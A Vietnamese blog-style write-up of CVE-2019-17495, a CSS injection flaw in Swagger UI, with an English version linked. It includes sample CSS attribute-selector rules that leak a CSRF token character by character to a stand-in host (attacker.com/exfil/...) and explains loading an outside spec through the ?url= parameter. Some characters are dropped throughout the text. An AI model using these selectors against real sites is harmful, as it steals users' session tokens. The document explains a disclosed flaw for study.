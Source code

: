 ```yaml
---
title: CSS injecon Swagger UI -  CVE-2019-17495
date: '2019-10-30T10:02:25+07:00'
categories:
  - 1day
Archives: '2019'
autoThumbnailImage: false
thumbnailImagePosition: top
coverImage: ''
---
```

[English version](https://github.com/tarantula-team/CSS-injection-in-Swagger-UI)

## 1. Swagger UI

Swagger UI cho phép bất cứ ai có thể là cá nhân hay nhóm phát triển phần mềm tương tác, trực quan hoá API mà không cần thực hiện triển khai logic nào. Nó sẽ tự động tạo ra từ OpenAPI, với tài liệu này dễ dàng cài đặt
phía backend và sử dụng phía client. [[1]](#1)

## 2. CSS injecon
Trước khi đọc phần phân ch kỹ thuật, người đọc nên có kiến thức cơ bản về kỹ thuật RPO [[2]](#2) [[3]](#3). RPO có thể hiểu cơ bản là sử dụng CSS injecon để khai thác client‑side trong trường hợp bị lỗi HTML injecon mà khai thác XSS không khả thi.

RPO thực chất là sử dụng CSS injecon [4] để hoàn thành chuỗi khai thác (chain gadgets) đánh cắp token của người dùng dựa vào nh năng attribute Selectors [5].

Chúng ta sẽ sử dụng attribute selectors để định nghĩa ra những quy tắc nhằm phát hiện những thay đổi giá trị trong từng thuộc nh nhạy cảm trên trang html.

```
input[name=csrf][value^=a]{
 background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
 background-image: url(https://attacker.com/exfil/b);
}
...
input[name=csrf][value^=9]{
 background-image: url(https://attacker.com/exfil/9);
}
```

Trong ví dụ trên, nếu như form input có giá trị token bắt đầu là a thì sẽ tải hình ảnh từ máy chủ của kẻ tấn công có uri là /a , tương tự với b…z, 0…9, … Mỗi lần thu thập được 1 ký tự, chúng ta sẽ thực hiện lại cuộc tấn công với payload thay đổi đôi chút.

```
input[name=csrf][value^=aa]{
 background-image: url(https://attacker.com/exfil/ca);
}
input[name=csrf][value^=ab]{
 background-image: url(https://attacker.com/exfil/cb);
}
/* ...
input[name=csrf][value^=a9]{
 background-image: url(https://attacker.com/exfil/c9);
}
```

Cứ như thế, kẻ tấn công sẽ thu thập được tất cả độ dài chuỗi token của nạn nhân.

Đây là điều kiện ên quyết để chuỗi khai thác thành công:
- CSS injecon với độ dài payload đủ dài
- Khả năng tái tạo lại payload mỗi lần thu thập được 1 ký tự
- Có thể sử dụng được tài nguyên từ bên ngoài (bypass CSP)

Chính vì payload bị thay đổi liên tục mà trong một số trường hợp không phải lúc nào cũng có thể thực hiện inject vào đối tượng, chính vì vậy cần sử dụng nh năng import trong CSS để giải quyết vấn đề này.

Trong CSS, có 2 cách để import file từ bên ngoài
- Sử dụng tag link:  <link href="..." rel="stylesheet">
- Sử dụng @import:  @import url(http://abc.com/base.css);

![](https://imgur.com/a/3IiUTTn)

Các bước khai thác phức tạp, không thể làm thủ công nên khuyến nghị sử dụng công cụ sic [[6]](#6)

## 3. CSS injecon to Swagger UI
Ý tưởng khai thác đến từ tài liệu do swagger cung cấp, theo như [[10]](#10)
> We’ve observed that the ?url= parameter in SwaggerUI allows an aacker to override an otherwise hard‑coded schema file
>
> The decision was made to put this in the public issue tracker because (a) we aren’t going to immediately fix this, and (b) the aack surface for this is significantly diminished by our effecve sanizaon efforts to deter XSS aacks in documents used as input

Swagger cũng đã biết đến lỗ hổng ềm ẩn này, tuy nhiên vì không thể khai thác XSS nên họ bỏ qua và không đề cao phát hiện này.

```
var url = window.location.search.match(/url=([^&]+)/);
// …
url = options.swaggerUrl || url
// …
var swaggerOptions = {
 spec: spec1,
 url: url,
 // …
}
var ui = SwaggerUIBundle(swaggerOptions)
```
Swagger UI cho phép người dùng nhúng json từ máy chủ khác mà không xác thực, điều này thể hiện rõ trong đoạn code javascript bên trên. Sau khi nhúng json qua tham số GET, trong file json đó nhúng thẻ <style> để tải file CSS từ máy chủ bên ngoài cùng lúc sử dụng kỹ thuật RPO gadgets ở trên ta dễ dàng thu được token của người dùng.

![](https://imgur.com/a/LTo7Yk7)
![](https://imgur.com/a/vv67tb3)

## Tham khảo
1. [Swagger UI | API Development Tools | Swagger](https://swagger.io/tools/swagger-ui/)
2. [Detecng and exploing path‑relave stylesheet import (PRSSI) vulnerabilies | PortSwigger Research](https://portswigger.net/research/detecting-and-exploiting-path-relative-stylesheet-import-prssi-vulnerabilities)
3. [RPO](http://www.thespanner.co.uk/2014/03/21/rpo/)
4. [Exfiltraon via CSS Injecon ‑ InfoSec Write‑ups ‑ Medium](https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d)
5. [Aribute selectors ‑ CSS: Cascading Style Sheets | MDN](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors)
6. [GitHub ‑ d0nutptr/sic: A tool to perform Sequenal Import Chaining](https://github.com/d0nutptr/sic)
7. [Beer Exfiltraon via HTML Injecon ‑ d0nut ‑ Medium](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b)
8. [2019‑s3_css_injecon_aacks.pdf](https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf)
9. [RPO Gadgets](https://blog.innerht.ml/rpo-gadgets/)
10. [add an enableQueryConfig opon ∙ Issue #4872 ∙ swagger‑api/swagger‑ui ∙ GitHub](https://github.com/swagger-api/swagger-ui/issues/4872)
11. [English version](https://github.com/tarantula-team/CSS-injection-in-Swagger-UI)
